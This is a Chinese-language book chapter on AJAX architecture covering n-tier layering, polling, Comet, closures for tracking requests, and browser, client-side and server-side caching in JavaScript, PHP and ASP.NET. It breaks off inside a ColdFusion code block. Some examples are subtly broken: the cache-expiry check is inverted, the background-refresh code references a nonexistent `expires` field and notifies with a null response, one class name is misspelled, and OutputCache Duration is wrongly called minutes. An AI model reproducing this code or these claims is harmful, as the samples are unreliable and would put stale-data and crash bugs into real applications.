随着 Web 应用程序变得越来越复杂，进一步划分各层职责并将其封装到独立的层中是非常有用的，因此我们将此类设计称为 n 层架构，其中 n 是一个变量，可以表示任意数量的层。通过这种方式，我们不必受限于特定数量的层，而是可以以最适合我们应用程序的方式来划分职责。

AJAX 应用程序一种常用的架构是包含客户端、表现层、业务逻辑层、集成层和数据层。

- **客户端层**负责管理客户端的数据，通常也是请求和处理来自服务器的信息的组件所在之处。
- **表现层**负责通过浏览器向客户端展示数据。表现层从客户端层获取要展示的数据，并不关心数据是如何获取的或从何处获取的。表现层只知道它可以从客户端层获取数据并展示给用户。
- **业务逻辑层**顾名思义，负责实现业务逻辑。业务逻辑层实现系统的业务规则，但它将数据视为对象，并不关心数据如何存储或如何展示。当客户端层请求某些信息时，业务逻辑层负责管理该请求，决定检索哪些信息，以及判断客户端是否有权获取该条信息。当客户端对某条信息执行某些操作（例如更新字段、添加新对象或删除对象）时，同样由业务逻辑层负责判断客户端是否有权进行此更改，并在符合系统要求的情况下执行更改。
- **集成层**位于业务逻辑层和数据层之间，负责将数据从其原生格式（例如 SQL 表或 XML 元素）转换为更适合业务逻辑层的形式（例如对象）。集成层通常被称为数据抽象层，因为它允许业务逻辑层以抽象方式处理数据；也就是说，它可以像处理对象一样处理数据，而无需关心数据实际存储方式的细节。数据层与三层示例中的相同，通常由数据库构成。在数据库之下可能还有其他层，例如用于与遗留数据集成层。

我们立即可以看到使用 n 层模型的一个优势。在前面的例子中，由于我们有集成层，因此可以轻松地将数据层更改为完全不同的数据库服务器应用程序，或者从数据库服务器更改为一组 XML 文件。如果我们更改了数据层，只需要更新集成层，应用程序的其余部分将照常工作，无需任何修改。如果我们决定将 Web 应用程序从使用 `XHR` 对象更改为使用 IFrame 或 XML 数据岛来获取数据，也是同样的道理。在这种情况下，我们只需要更改客户端层，应用程序的其余部分将再次照常工作。

与传统 Web 应用程序不同，AJAX 应用程序往往会模糊这些不同层之间的界限。特别是，传统应用程序几乎没有客户端层，且业务逻辑层不可避免地绑定在服务器端；而在 AJAX 应用程序中，客户端层是架构的重要组成部分，业务逻辑通常跨越网络，同时以某种形式存在于服务器和客户端。在某些情况下，业务逻辑甚至可能完全存在于 Web 浏览器中，而服务器上几乎没有业务逻辑。然而，将所有业务逻辑放在客户端可能会引发安全问题，而且通过直接向集成层或数据层发起 XHR 请求来绕过重要业务逻辑的诱惑始终存在。

## 异步消息传递

在大多数情况下，AJAX 应用程序设计人员可以使用标准的 `XHR` 对象从服务器请求数据并将数据更新提交给服务器，从而轻松实现其目标功能。这些对服务器的请求是异步发出的，因此客户端用户界面能够保持响应；而在同步请求中，客户端用户界面在等待服务器响应时会显得卡顿。然而，在某些情况下，为了实现某些功能需求，你确实需要在客户端和服务器之间采用更复杂的数据传输方式。

最明显的情况是，客户端应用程序经常需要某种方式来跟踪对服务器的请求，以便在收到服务器的响应时执行某些操作。当服务器上存在长时间运行的进程，并且在任何时刻都有多个对服务器的请求处于未完成状态时，就会出现这种情况。在这种情况下，你需要一种方法来跟踪哪个请求正从服务器返回，并将其与要执行的某段 JavaScript 代码相匹配。

另一种常见情况是，客户端用户界面需要始终与服务器数据保持同步。传统 Web 应用程序通过使用 META REFRESH 指令来实现这一点，该指令会定期刷新网页，无需最终用户执行任何操作。刷新整个网页会对服务器负载产生严重影响，因为它需要重新构建网页上的所有动态内容。当然，使用 AJAX，我们可以有效地只更新网页中需要更新的小部分内容，同时利用 AJAX 的诸多架构优势，例如 Web 服务器的内在缓存。在 AJAX 应用程序中，客户端可以通过两种方式中的一种从服务器进行更新：一种是服务器轮询（server polling），即客户端按一定的时间间隔反复向服务器发出请求——当然，该间隔取决于应用程序本身；另一种是 Comet，即由服务器负责跟踪并在预定义的服务器事件上将信息发送给每个连接的客户端。这两种技术通常都被称为“服务器推送”（server push），因为它们将数据从服务器推送到客户端，而传统的 Web 应用程序中，客户端全权负责从服务器请求数据。在我们的客户和订单管理系统中，服务器推送非常有用，例如，对于一个繁忙的电子商务应用的管理界面，订单经常被添加到系统中。如果客户端用户界面被更新以反映服务器上的最新信息，那么用户编辑或删除陈旧数据的可能性就会大大降低，因此就不再需要复杂的数据冲突处理技术。

下面让我们依次来看看这些技术。

### 轮询

服务器推送最常用的方法是轮询（polling），它简单易行，需要的客户端 JavaScript 代码极少，并且与常规 AJAX 应用程序相比，服务器设计基本保持不变。轮询通常在应用程序的后台执行，最终用户甚至察觉不到差异。在 JavaScript 中实现轮询非常简单。JavaScript 的 `setInterval()` 方法允许你指定一个时间周期以及在该周期内要执行的方法。

```javascript
function startTimer() {
  return setInterval(updateOrders, 1000); // Call server every second
}

var tid = startTimer();
```

这里，`updateOrders` 是每秒都会调用的函数。我们可以通过使用定时器 ID 调用 `clearInterval()` 来停止客户端的轮询，如下所示：

```javascript
clearInterval(timerId);
```

由于这是 Web 应用程序中非常常见的操作，因此大多数框架都支持轮询。轮询类还可以具备一些附加功能，例如衰减（decay）值，这样如果服务器的响应连续两次相同，则下一次请求的间隔时间会按某个衰减时间增加。这在我们需要不断检查服务器上的更新值、但又希望避免每秒都向服务器发出大量请求的情况下非常有用。

在为轮询组件选择更新频率时要小心。如果轮询过于频繁，会给服务器带来不必要的负载；但如果轮询频率过低，数据就不会那么新鲜，用户可能不得不坐在那里等待下一次更新。和往常一样，最佳设置取决于你的应用程序，并且由于更改间隔很简单，可能需要进行一些测试才能找到适合你应用程序的最佳设置。

### 服务器推送

与轮询相反的方式称为服务器推送（server push）。在这种情况下，是由服务器负责控制数据流，而不是客户端。轮询需要在客户端编写一些额外的 JavaScript 代码，而服务器推送则需要对服务器架构进行一些更改。对于基于 Web 的应用程序，人们以前曾使用过 Java 小程序用于保持与服务器的连接处于打开状态，从而实现数据向客户端推送。然而，Java Applet 的使用一直在下降，尤其是由于微软自 Windows XP Service Pack 1a 以来不再包含 Java 虚拟机。

从概念上讲，实现服务器推送的最简单方法是在应用程序的整个生命周期内保持客户端与服务器之间的连接，以便服务器在需要时可以随时向客户端发送数据。不幸的是，这存在两个问题。一是它需要在客户端上有一个开放的套接字，这意味着客户端始终会有一个服务器连接处于使用状态。遵守 HTTP 1.1 标准的网络浏览器（大多数都是如此）只允许同时向给定域建立两个并发连接。第二个问题是服务器必须为来自客户端的每个套接字连接生成一个线程，这意味着如果有大量客户端连接到应用程序，将需要消耗大量的服务器资源。为了解决第一个问题，我们可以将请求分散到不同的子域（`server1.example.com` 和 `server2.example.com`）。第二个问题则不容易解决，需要特殊的服务器编程。

### Comet

Comet 是一种数据推送技术模式，它涉及向服务器发送异步 XHR 请求，并预期服务器在很长一段时间内不会响应。这对服务器设计有一些重大影响。与对服务器的标准 HTTP 请求一样，每个 Comet 请求都需要服务器上的一个线程以及响应客户端请求所使用的所有相关内存资源。由于 Comet 的理念是无限期地保持 HTTP 会话打开，如果在某一时有大量用户在使用您的应用程序，这可能意味着大量线程、内存和 CPU 时间被消耗，而实际上什么也没做！

为了避免为了在你的应用程序中实现 Comet 功能而扩展服务器集群，许多服务器框架提供了特殊的异步请求容器。你可以使用多种技术来有效实现 Comet 模式——表 6.1 中介绍的那些技术都围绕 Java 或 .NET 中的异步 HTTP 接口。

#### 表 6.1 实现 Comet 模式的技术

| 技术 | 厂商/平台 | 类 |
|---|---|---|
| Java | Jetty | `Continuation` |
| Java | BEA | `AbstractAsyncServlet` |
| Java | Sun / Glassfish | `Grizzly HTTP Connector` |
| Java | Tomcat 6.x | `CometServlet` |
| .NET Framework | ASP.NET | `IHttpAsyncHandler` |

虽然 Comet 是一种 AJAX 设计模式，但 Cometd 是一种更具体的架构，您可以用它来实现 Comet 功能。Cometd 包含一个名为 Bayeux 的协议规范，它使用 JSON 消息传递定义了客户端和服务器之间事件发布和订阅的方法，以及客户端库（如来自 Dojo Toolkit 的库）和一个事件服务器。

### 跟踪请求

跟踪请求的最简单方法是同步发送请求。同步请求会阻塞浏览器中的 JavaScript 线程，直到服务器返回响应，因此，就像任何 JavaScript 函数调用一样，响应可以被赋值给局部变量，并在调用上下文中处理。

```javascript
var myXhr = new entAjax.HttpRequestedcRequest();

myXhr.handler = "customers.jsp";

var oResponse = myXhr.get();
```


同步请求在某些情况下可能很有用，但异步请求更为常见，因为它们不会导致 Web 浏览器用户界面对最终用户变得无响应，因为 JavaScript 线程没有被阻塞。这一事实也意味着可以向服务器并行发出多个请求。当我们处理面向对象的 JavaScript 时，来自服务器的响应由正确的对象处理至关重要；确保异步请求返回到发起请求的对象的最简单方法是使用闭包。

```javascript
function Customer(sId)
{
  var myXhr = new entAjax.HttpRequest();

  myXhr.handler = "customers.jsp?id=" + sId;

  var _this = this;

  myXhr.completeCallback = function(params)
  {
    _this.render(params)
  };

  myXhr.get(sId);
}
```

```javascript
Customer.prototype.render = function(params) {
  // render the returned data to the screen.
}
```

在这个简化版 `Customer` 类的构造函数中，向服务器发出了获取指定 ID 的客户数据的请求。当数据从服务器返回时，JavaScript `Customer` 对象会被来自服务器的信息填充。为了确保正确的 `Customer` 对象被来自服务器的正确数据填充，我们将 `HttpRequest` 对象的 `completeCallback` 属性设置为内联函数。

```javascript
function(params) {_this.render(params)}
```

请注意 `_this` 变量的使用，在前一行中我们将其设置为等于 `this` 关键字——我们在这里创建的闭包无法在其作用域中捕获 `this` 对象。因此，为了解决这个问题，我们将局部变量 `_this` 指向 `this` 对象，这样就可以在闭包中捕获它了。通过这种方式，`_this` 变量所指的对象的 `render` 方法将是正确的 `Customer` 对象的 `render` 方法，因为闭包的存在。

某些应用程序甚至可能需要更高级的消息跟踪系统，例如，确保所有消息的传递，即使在网络或服务器故障的情况下也是如此。如果你的应用程序需要这种功能，你可能会对研究 W3C 的 WS-ReliableMessaging 及相关规范感兴趣。

## 缓存：数据的获取

Web 应用程序通常用于收集、显示和处理数据。这些数据存储在服务器上，然后由客户端处理，客户端与服务器之间通过网络相连，而网络相对较慢。无论客户端计算机有多慢，或者服务器负载有多重，大多数 Web 应用程序的瓶颈都在于网络速度，因此从客户端向服务器请求数据通常是 Web 应用程序中最慢或最耗资源的操作。因此，如果我们能减少请求的数据量，就能极大地提升应用程序的性能。这就是缓存变得重要的地方。

缓存是数据的集合，它是存储在其他地方的数据或先前计算的数据的快速可访问副本。拥有缓存副本的好处在于，原始数据通常获取或计算的成本要高得多。如果我们缓存常用的数据，就可以快速获取该数据，避免因返回服务器查找数据或执行我们已经执行过的昂贵计算而造成的性能损失。缓存并非 Web 应用程序所特有，它在计算机科学的许多其他领域也有应用。计算机中的 CPU 使用多个缓存来加速其性能，因为从系统内存中检索数据是一项昂贵的操作。计算机中的硬盘也有数据缓存，因为从盘片中检索数据相当昂贵，而且经常需要重复访问相同的数据。

缓存的明显缺点是缓存中的数据可能变得陈旧。如果服务器上的数据已更新，但客户端正在使用本地缓存的数据副本工作，它将继续使用旧值，而不是从服务器检索新的、更新的值。有一些方法可以管理这个问题，例如让缓存检查数据是否已更新，但这需要向服务器发出请求，尽管如果服务器返回的仅仅是数据尚未更新的消息，那么这可能是一个小得多的请求。

缓存的另一个缺点是它会消耗客户端的资源。因此，仔细考虑应该缓存什么数据以及缓存多少是很重要的。如果我们缓存所有内容，我们的应用程序最终可能会消耗大量内存，而且在缓存中查找数据最终可能会变得与最初获取数据一样昂贵，从而损害整个应用程序的性能。

应用程序缓存有多种策略，并非所有策略都专属于 Web 应用程序。大多数策略依赖于维护固定大小的缓存，并一次只保留一定数量的数据项。通常，我们会保留最近使用过的 N 个数据项，或者使用频率最高的 N 个数据项，其中 N 为正整数。这两种策略都需要缓存具备除简单查找表之外的智能机制，但实现起来都不复杂。与其他方面一样，最适合应用程序的策略取决于其使用模式。如果某些数据项被频繁使用，使用最频繁使用策略更为可取；但如果最近查看过的项目更有可能再次被使用，则最近使用策略更为合适。与大多数架构决策一样，缓存方法在很大程度上取决于您的应用场景。

### 基础缓存

所有从属于 XHTML 文件链接或引用到的静态文件，甚至包括 XHTML 文件本身，默认都会被 Web 浏览器缓存。我们只需在 XHTML 代码中通过常规的 `<script>` 元素引用外部 JavaScript 文件，就可以在很大程度上消除用户第二次访问网页时下载大型 JavaScript 文件的需求：

```html
<script type="text/javascript" src="myscript.js"></script>
```

在这种情况下，如果用户最近访问过该页面且文件未发生变化，`myscript.js` 文件可以直接从本地计算机的 Web 缓存中加载，而无需再次从服务器下载。如果您的脚本有 500 Kb，从本地缓存中获取它相比反复从服务器下载，收益是巨大的。相反，将 JavaScript 直接嵌入到父 HTML 页面中则会产生相反的效果。这些数据很可能不会被缓存，并且会导致页面每次加载时都很慢。需要记住的是，用户机器上的缓存文件可能会存在一段时间，具体取决于其浏览器缓存保留设置的配置。如果服务器上的 JavaScript 已更改或更新，但用户浏览器仍继续使用旧的缓存版本，这可能会对 AJAX 应用程序产生负面影响。

当然，这种缓存适用于从 Web 页面链接的所有静态文件，例如图像和 CSS。需要注意的另一个基础缓存问题是，Internet Explorer 不会缓存通过 CSS `url("myimage.png")` 语句引用的图像。如果 CSS 用于动态地将某个样式应用于某些 HTML 元素，图像每次从服务器下载时都可能出现闪烁。为了解决这个问题，您可以强制服务器在提供图像文件的服务时，让响应头指示内容在很远的未来才过期；或者在 Internet Explorer（含 SP1）中使用以下 JavaScript 代码片段：

```javascript
document.execCommand("BackgroundImageCache", false, true);
```

这会使浏览器积极地缓存图像。

### 组件内缓存

在组件中实现缓存是实施缓存最困难的地方，但由于组件本身在客户端处理数据，因此组件能够做出最明智的决策，判断哪些内容应该被缓存。因此，通过在客户端实施良好的缓存策略，可以获得最显著的性能提升。这也是最难实施缓存的地方，因为通常需要从零开始实现，而服务器和数据库等其他层级都有内置的缓存机制可供使用。在客户端，我们通常使用自己开发的组件或轻量级框架，因此如果我们需要缓存，就需要自己构建。

组件内缓存的一个例子是，当我们创建新订单并查找要添加到订单中的产品时。假设我们有一个选择框，用户在其中选择产品名称，然后触发 XHR 对象从服务器请求所有产品信息。如果经常有包含相同产品的订单，就会反复发送请求获取相同的产品数据。相反，我们可以缓存每个请求和响应，从而在需要产品详情时使用缓存的响应，而不是发起新的、耗时的请求。这可以轻松地封装在一个属于客户端层级、负责从服务器获取数据的 JavaScript 类中。通过继承 `HttpRequest` 类，缓存将用于客户端和服务器之间的所有通信，并对使用它的任何组件完全透明。组件只需从通信层请求一些数据，然后获得响应；无论响应来自本地缓存还是服务器，组件都不关心。`HttpRequestCache` 类的实现可能如下所示：

```javascript
entAjax.HttpRequestCache = function() {
    this.cache = {};
}

entAjax.extend(entAjax.HttpRequestCache, entAjax.HttpRequest);

entAjax.HttpRequestCache.prototype.get = function()
{
    if ((response = this.cache[this.handler]) == null) {
        entAjax.HttpRequestCache.base.get.call(this);
    } else {
        this.onGetComplete.notify(response);
    }
}

entAjax.HttpRequestCache.prototype.getComplete = function()
{
    if(this.httpObj.readyState==4) {
        var callbackParams = {
            'response':this.handleResponse(),
            'params':this.params,
            'status':this.httpObj.status,
            'statusText':this.httpObj.statusText
        };

        this.cache[this.handler] = callbackParams;
        entAjax.HttpRequestCache.base.getComplete.call(this);
    }
}
```

这里我们使用一个简单的关联数组作为缓存对象。在向服务器发出任何请求之前，缓存会使用请求的 URL 作为哈希中的键进行检查。如果缓存中没有数据，我们发起新请求并将返回的值存储在缓存中。这本质上就是 Internet Explorer 中 XHR 对象的原生操作。然而，这里存在一个问题。如果应用程序在用户的 Web 浏览器中打开了一整天，而系统其他用户更新了某些产品的详细信息，该怎么办？如果该用户反复使用相同信息创建订单，他就会继续获得相同的缓存结果。我们需要做的是实现某种过期机制，使缓存只在一段时间内存储结果。我们可以通过更新代码来实现这一点：

```javascript
entAjax.HttpRequestCache.prototype.expiry = 1000*60*60 // 1 hour

entAjax.HttpRequestCache.prototype.get = function()
{
  if ((response = this.cache[this.handler]) == null
      || (new Date().getTime() < response.expires)) {
    entAjax.HttpRequestCache.base.get.call(this);
  } else {
    this.onGetComplete.notify(response);
  }
}

entAjax.HttpRequestCache.prototype.getComplete = function()
{
  if(this.httpObj.readyState==4) {
    var callbackParams = {
      'response':this.handleResponse(),
      'params':this.params,
      'status':this.httpObj.status,
      'statusText':this.httpObj.statusText
    };

    this.cache[this.handler] = callbackParams;

    var now = new Date().getTime();
    this.cache[this.handler].expires = now + this.expiry;

    entAjax.HttpRequestCache.base.getComplete.call(this);
  }
}
```

在这里，我们向 `HttpRequestCache` 类添加了一个公共成员，表示我们希望缓存中的条目被视为有效的毫秒数。这可以硬编码，也可以根据我们从服务器请求的数据类型进行更改。由于 JavaScript 对象的可变性，我们在缓存中保留的对象也被修改为具有一个 `expires` 属性，以指示缓存条目何时被认为已过期。现在，当我们从缓存中检索条目时，我们不仅要检查条目是否存在于缓存中，而且如果它确实存在，还要检查它是否尚未过期。

### 浏览器中的缓存

我们还可以使用另一个技巧来改进缓存：让缓存立即返回已缓存的数据，但同时在后台更新其缓存副本。尽管数据可能仍然略有过时，但数据会被快速返回，从而保持应用程序的响应性。下次用户请求同一数据时，将返回一个更新更近的版本。这有助于减少客户端的等待时间，同时仍然保持数据相对新鲜，但代价是比之前的版本产生更多的服务器请求。我们可以通过如下更新代码来实现这一点。

```javascript
entAjax.HttpRequestCache.prototype.expiry = 1000*60*60 // 1 hour

entAjax.HttpRequestCache.prototype.get = function()
{
    var now = new Date().getTime();

    if ((response = this.cache[this.handler]) != null
            && (now < response.expires)) {
        // Notify the handlers immediately with the cached data
        this.onGetComplete.notify(response);

        if (now > (response.expires - this.expires/2))
            entAjax.HttpRequestCache.base.get.call(this);
    } else {
        this.onGetComplete.notify(response);
    }
}

entAjax.HttpRequestCache.prototype.getComplete = function()
{
    if(this.httpObj.readyState==4) {
        var callbackParams = {
            'response':this.handleResponse(),
            'params':this.params,
            'status':this.httpObj.status,
            'statusText':this.httpObj.statusText
        };

        this.cache[this.handler] = callbackParams;

        var now = new Date().getTime();
        this.cache[this.handler].expires = now + this.expiry;

        entAjax.HttpRequestCache.base.getComplete.call(this);
    }
}
```

在此示例中，如果数据超过 1 小时，将从服务器检索。如果数据在半小时到 1 小时之间，将从缓存返回，但随后在后台刷新。最后，如果数据不到半小时，则直接从缓存返回。您可以使用这种方法来提高应用程序的响应性，特别是在由于大数据包或网络缓慢而导致网络延迟较高的情况下。

正如本节引言中所讨论的，如果我们盲目地缓存每一条数据，就像本例中那样，我们就有存储过多数据的风险，这会降低整个应用程序的性能，并使在缓存中查找数据成为一项昂贵的操作。一种解决方案是在缓存中只保留一定数量的条目，例如 10 个最常访问的项目，或 10 个最近访问的项目。这两种策略都可以使用优先队列轻松实现，优先队列是一个按某些属性（如最后访问时间或访问次数）排序的列表。使用优先队列并刷新旧或很少使用的项目会为每次缓存调用增加相当多的开销，因此我们可以通过创建一个定期访问缓存并清除旧条目的函数来进一步改进缓存。权衡是缓存可能会变大，但只是短暂的时间。为此，我们获得了从缓存获取数据简单化的优势，并且在获取值时，除了可能添加新条目外，不对缓存进行任何管理。根据缓存中存储的数据量，我们可以调整调用缓存以刷新旧条目的间隔。

## 浏览器中的缓存

每个 Web 应用程序开发人员都需要充分了解浏览器中的缓存工作原理。所有 Web 浏览器都支持缓存数据以更快地显示网页。页面的所有部分，如 HTML 文件、JavaScript 文件、图像和 CSS，都由浏览器缓存，以便后续对相同数据的请求可以在不必向服务器发出昂贵请求的情况下得到满足。

Web 浏览器应该支持有关缓存的某些标准。Web 请求和响应中的头部在客户端和服务器之间通信，告知什么是缓存的、什么可以缓存，以及缓存副本何时过期。从服务器发送的两个最重要的头部是实体标签（`ETag`）和 `Last-Modified` 头部。`ETag` 是一个唯一标识符，代表响应的内容，例如响应中发送的数据的哈希值。当响应中返回的数据更改时，`ETag` 也会更改，浏览器可以跟踪每个请求项目的 `ETag`，并确定项目是否已更改。同样，`Last-Modified` 头部告诉浏览器所请求的文件上次修改的时间。

典型响应的头部通常如下所示：

```http
HTTP/1.1 200 OK
Date: Thu, 11 May 2006 15:26:12 GMT
Server: Apache/1.3.33 (Unix)
Cache-Control: max-age=3600, must-revalidate
```


```text
Expires: Fri, 10 Nov 2006 15:26:12 GMT
Last-Modified: Mon, 8 May 2006 06:30:16 GMT
ETag: "4b94-629-4796efe"
Content-Length: 12046
Content-Type: text/html
```

现在，如果我们仍然从服务器发送整个响应回来，仅仅为了检查`ETag`是否已更改，这些头部就没有多大用处。即使没有更改，我们也不会从使用缓存副本中受益，因为我们刚刚从服务器收到了一个新副本。浏览器有两种方法可以在不必接收整个响应的情况下查明服务器上的某些数据是否已更改。

第一种方法是使用`HEAD`请求。在`HTTP 1.1`中，除了`GET`和`POST`之外，还添加了几种新的请求类型。其中之一，`HEAD`请求，允许浏览器仅请求如果它发出`GET`请求将返回的头部。通过使用`HEAD`请求，浏览器可以获取服务器上资源的`ETag`，而不必加载整个资源，然后它可以确定其缓存中的副本是否有效。权衡是，如果某些内容已更改，我们现在需要两个单独的请求，尽管第一个是小的`HEAD`请求。

或者，浏览器可以在请求中添加自己的头部，告诉服务器它缓存的版本，然后服务器可以决定是发送一个全新的响应，还是只是通知浏览器没有更改。浏览器通过发送一个`If-None-Match`头部，其中包含其缓存中响应头部返回的`ETag`，或者发送一个`If-Modified-Since`头部，其中包含其缓存中响应关联的`Last-Modified`头部的值。

如果服务器认为浏览器缓存中的版本有效，它可以简单地响应`304`（未修改）响应；否则，它可以使用正常的`200`响应发送整个资源——带有新的`ETag`和`Last-Modified`头部。如果客户端收到`304`响应，它知道可以显示数据的缓存副本。这被认为是验证缓存，因为客户端使用验证头部来验证其缓存的内容。

HTTP还支持非验证缓存，在这种缓存中，浏览器可以自行决定是否使用其缓存中的数据，而不必向服务器发送请求。显然，非验证缓存更高效，因为它不需要昂贵的请求；然而，它也不太准确，因为它是基于对数据在缓存中应保持多长时间新鲜的估计，而不是实际询问服务器某些内容是否已更改。

`Expires`头部在`HTTP 1.0`和`HTTP 1.1`中都可用，并指定响应内容应被视为过期的日期。使用`HTTP 1.0`，服务器还可以将`Pragma`头部设置为`"no-cache"`以请求客户端不缓存响应。使用`HTTP 1.1`，我们可以使用`Cache-Control`头部对缓存有更多控制。在`Cache-Control`头部中，我们可以指定响应是否可以缓存以及应该缓存多长时间。

浏览器和服务器都可以指定这些`Cache-Control`设置，浏览器还可以控制响应的缓存方式。当缓存代理位于浏览器和服务器之间时，这很有用，以便浏览器可以指定它希望缓存代理中的副本从服务器刷新。

了解 Internet Explorer XHR 实现中的缓存问题也很重要。Internet Explorer中`XHR`对象发出的所有请求都会被缓存，无论服务器的响应如何。通常，通过添加随机查询字符串参数（如当前时间）来规避此限制，这会强制浏览器向服务器发出请求。

此问题的更好解决方案是在服务器上显式定义适当的页面缓存头部。在我们的 JavaScript 组件中模拟其中一些缓存机制也很有用。因为我们可以向请求添加头部并从响应中读取头部，以及发出`HEAD`请求，所以我们可以像浏览器那样在我们的组件中进行相同类型的缓存。这会带来高性能的 Web 应用程序，就像浏览器中的缓存改善了浏览体验一样。

### HTTP 1.1

`HTTP 1.1`规范定义了多种可在网络资源或网页上执行的所谓方法。重要的方法如下：

- `GET` — 最常用的方法，用于请求由所请求 URI 指定的服务器上的资源。来自`GET`请求的响应通常被认为是可缓存的。
- `HEAD` — 类似于`GET`请求；但是，仅向客户端返回头部信息。
- `POST` — 向服务器提交数据，此时服务器可能会对数据执行某些操作，例如将其插入数据库。
- `PUT` — 与`POST`类似，提交给服务器的数据应存储在与请求所指向的同一 URI。
- `DELETE` — 应删除服务器上与所请求 URI 对应的数据。

作为对服务器这些请求的响应，一些常用且有用的三位数字代码用于表示请求的结果。一些重要的代码包括：

- `2xx` — 成功。
- `200` — OK — 请求已成功。
- `3xx` — 重定向。
- `304` — Not Modified — 请求的资源未被修改。这特别适用于条件`GET`请求，即仅当资源被修改时才返回内容。
- `4xx` — 客户端错误。
- `403` — Forbidden — 服务器不想提供对此资源的访问。例如，当资源需要用户名和密码授权时会发生这种情况。
- `404` — Not Found — 在服务器上未找到客户端请求的资源。
- `5xx` — 服务器错误。
- `500` — Internal Server Error — 服务器意外地无法完成请求。
- `503` — Service Unavailable — 服务器由于过载或限流而无法完成请求。

### 服务器端缓存

尽管上一节涵盖了浏览器和 Web 服务器的大部分缓存机制，但我们还有其他方法可以在服务器上缓存数据。服务器通常不是链路的最后一环，它经常处理必须从系统文件或数据库中检索的数据。因此，如果我们能找到高效的方法来缓存这些数据，就可以再次避免从原始来源检索数据所需的昂贵操作。

对于动态生成的页面，我们通常可以通过缓存页面的整个渲染版本来获益，而不是在每次请求时重新渲染。当我们的页面每小时或每天仅更改一次时，这非常有用，因为我们可以每小时或每天缓存一次页面的输出，并使用该副本，而不是重新渲染整个页面。

我们通常也可以缓存页面某些部分的输出，这样，如果某些动态部分每小时或每天只更改一次，我们就可以再次只输出这些页面片段的缓存版本，而不必在每个请求上重新渲染它们。

不同的 Web 服务器和应用程序框架提供了不同的内容缓存方法。较旧的框架，如 PHP、JSP 和经典 ASP，本身不支持缓存，需要一些额外的工作才能有效地缓存内容。一般工作流程如图 6.1 所示。



图 6.1 常见缓存策略的活动图

## 第6章 AJAX 架构

当对页面的请求到达 Web 服务器时，它会检查文件系统缓存，看该页面是否之前已被缓存。如果缓存存在，则检查缓存的时间戳，如果缓存已过期，则创建新的页面缓存并提供服务；否则，提供缓存的版本。

对于 ASP、PHP 或 JSP，实际实现是相似的；PHP 的实现可能看起来像这样：

```php
<?php

$page = $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'];

// Create a unique cache page identifier

$cacheFile = 'cache/' . md5($page) . '.cache';

$cacheFile_created = 0;

// Find out when the file was cached from the filesystem

if (@file_exists($cacheFile)) {

    $cacheFile_created  = @filemtime($cacheFile);

}

// If page created < a minute ago then read cached file and serve it!

if (time() - 60 < $cacheFile_created) {

    @readfile($cacheFile);

    exit();

}

ob_start();

// Build you page here ...

$file = @fopen($cacheFile, 'w');

@fwrite($file, ob_get_contents());

@fclose($file);

// Output the newly created and cached content

ob_end_flush();

?>
```

在 PHP 中，我们利用了`ob_start()`和`ob_end_flush()`函数，它们分别用于开启和关闭输出缓冲。你可以看到，我们首先检查是否存在有效的缓存，如果存在，我们调用`exit()`来防止整个页面被重新渲染，而是提供缓存的内容。

如果缓存无效，我们就创建页面和一个新的缓存文件，其中包含输出缓冲区的内容。

在 ASP.NET 中，我们可以进行全页或输出缓存、片段缓存，并且我们还能够使用强大的内置`Cache`对象来缓存任意数据。要在 ASP.NET 页面上启用输出缓存，我们在 ASPX 页面的开头添加`@OutputCache`页面指令，如下所示：

```asp
<%@OutputCache Duration="60" VaryByParam="none" %>
```

`Duration`参数以分钟为单位指定缓存页面的时间长度，`VaryByParam`告诉页面是否存在任何参数（GET 或 POST）会改变页面的最终输出。

例如，假设我们有一个页面，它根据请求查询字符串中发送的`id`参数返回有关特定产品的详细信息。如果我们保持`VaryByParam`为`"none"`，那么当我们首先请求`id=1`的页面，然后请求`id=2`的页面时，第一个请求的响应将被缓存，然后用于第二个请求。这不是我们想要的行为。

如果我们将`VaryByParam`变量更改为`"id"`，第一个请求将为`id=1`的产品创建响应并缓存它。另一方面，第二个请求将被视为缓存中的不同页面，将为`id=2`的产品生成并缓存新的响应。

如果在接下来的一小时内有任何对这些产品中任何一个的后续请求，将返回正确的缓存版本。我们还可以将`VaryByParam`设置为`"*"`，这意味着所有参数都应被视为不同的请求。

在 ASP.NET 中，我们还可以控制发送回客户端的头部，并控制浏览器如何缓存内容。

```csharp
Response.Cache.SetExpires(DateTime.Now.AddMinutes(60));

Response.Cache.SetCacheability(HttpCacheability.Public);
```

这将页面的过期时间设置为从现在起 1 小时，这导致所有缓存（浏览器缓存和任何中间代理或 Web 缓存）在 1 小时后重新加载页面。`SetCacheability`设置告诉中间代理缓存和浏览器缓存该页面是公共的，页面的缓存版本可以发送给任何请求相同页面的人。

我们在 PHP 中对控制缓存的头部有类似的控制，以下演示了如何在 PHP 页面中设置`Cache-Control`和`Expires`头部：

```php
<?php

header("Cache-Control: no-cache, must-revalidate");

header("Expires: Mon, 26 Jul 1997 05:00:00 GMT");

?>
```

在此示例中，我们将`Cache-Control`头部设置为`"no-cache"`，这应该告诉代理缓存和浏览器不要缓存请求，但我们还将`Expires`头部设置为过去的日期，不理解`Cache-Control`头部的代理仍然会在下次请求时重新加载数据，因为缓存的数据已经过期。

在 PHP 4.2.0 及更高版本中，还有`session_cache_expire`和`session_cache_limiter`方法来管理使用会话时的缓存 HTTP 头部。它们的使用方法如下：

```php
<?php

// set the cache limiter to 'private'

session_cache_limiter('private');

$cache_limiter = session_cache_limiter();

// set the cache expire to 30 minutes

session_cache_expire(30);

$cache_expire = session_cache_expire();

// start the session

session_start();

?>
```

如果在页面中手动设置头部，它们会覆盖`session_cache`设置。由于 PHP 页面通常每次都是不同的，因此响应中不会发送`ETag`和`Last-Modified`头部。

如果你的 PHP 页面不是每次请求都更改，添加`ETag`头部可以减少服务器负载。`ETag`头部可以使用`header`方法设置，或者有一个名为`cgi_buffer`的库提供了许多提高性能的 HTTP 功能，包括通过`If-None-Match`请求头部进行`ETag`设置和验证。

在 ColdFusion 中，我们可以使用`CFHEADER`标签设置头部，将`Content-Expires`头部设置为从当前日期起一个月，如下所示：

```cfml
